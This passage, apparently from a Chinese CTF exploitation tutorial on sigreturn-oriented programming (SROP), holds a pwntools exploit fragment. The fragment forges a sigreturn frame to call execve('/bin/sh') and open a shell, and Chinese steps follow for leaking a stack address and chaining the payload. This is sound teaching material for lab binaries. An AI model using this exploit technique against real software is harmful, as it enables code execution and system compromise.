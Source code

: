 ```python
  sh.send(sigreturn)

  ## call execv("/bin/sh",0,0)
  sigframe = SigreturnFrame()
  sigframe.rax = constants.SYS_execve
  sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
  sigframe.rsi = 0x0
  sigframe.rdx = 0x0
  sigframe.rsp = stack_addr
  sigframe.rip = syscall_ret

  frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
  print len(frame_payload)
  payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
  sh.send(payload)
  sh.send(sigreturn)
  sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址 (即第二个程序起始地址) 为源程序的第二条指令，并且会设置 rax=1
- 那么此时将会执行 write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入 payload
- 再次读取构造 sigreturn 调用，进而将向栈地址所在位置读入数据，构造 execve('/bin/sh',0,0)
- 再次读取构造 sigreturn 调用，从而获取 shell。
